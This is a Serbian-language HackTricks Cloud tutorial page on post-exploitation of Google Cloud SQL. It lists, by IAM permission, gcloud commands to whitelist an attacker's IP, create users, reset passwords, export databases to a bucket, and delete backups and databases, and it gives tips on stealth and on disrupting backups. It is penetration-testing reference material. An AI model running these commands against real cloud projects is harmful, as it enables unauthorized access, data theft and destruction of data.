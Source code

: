 # GCP - Cloud SQL Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud SQL

Za više informacija o Cloud SQL, proverite:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Da biste se povezali na baze podataka, **samo vam je potreban pristup portu baze podataka** i da znate **korisničko ime** i **lozinku**, nema zahteva za IAM. Dakle, lak način da dobijete pristup, pod pretpostavkom da baza podataka ima javnu IP adresu, je da ažurirate dozvoljene mreže i **dozvolite svoju IP adresu da joj pristupi**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
Takođe je moguće koristiti **`--no-backup`** da **ometate rezervne kopije** baze podataka.

Pošto su ovo zahtevi, nisam potpuno siguran koje su dozvole **`cloudsql.instances.connect`** i **`cloudsql.instances.login`**. Ako znate, pošaljite PR!

### `cloudsql.users.list`

Dobijte **spisak svih korisnika** baze podataka:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Ova dozvola omogućava **kreiranje novog korisnika unutar** baze podataka:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Ova dozvola omogućava **ažuriranje korisnika unutar** baze podataka. Na primer, možete promeniti njegovu lozinku:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Bekapovi mogu sadržati **stare osetljive informacije**, pa je zanimljivo proveriti ih.\
**Vrati bekap** unutar baze podataka:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Da bi se to uradilo na diskretniji način, preporučuje se da se kreira nova SQL instanca i da se podaci povuku tamo umesto u trenutno aktivnim bazama podataka.

### `cloudsql.backupRuns.delete`

Ova dozvola omogućava brisanje rezervnih kopija:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Izvezite bazu podataka** u Cloud Storage Bucket kako biste mogli da joj pristupite odatle:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Uvezi bazu podataka** (prepiši) iz Cloud Storage Bucket-a:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Obriši bazu podataka iz db instance:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podrška HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
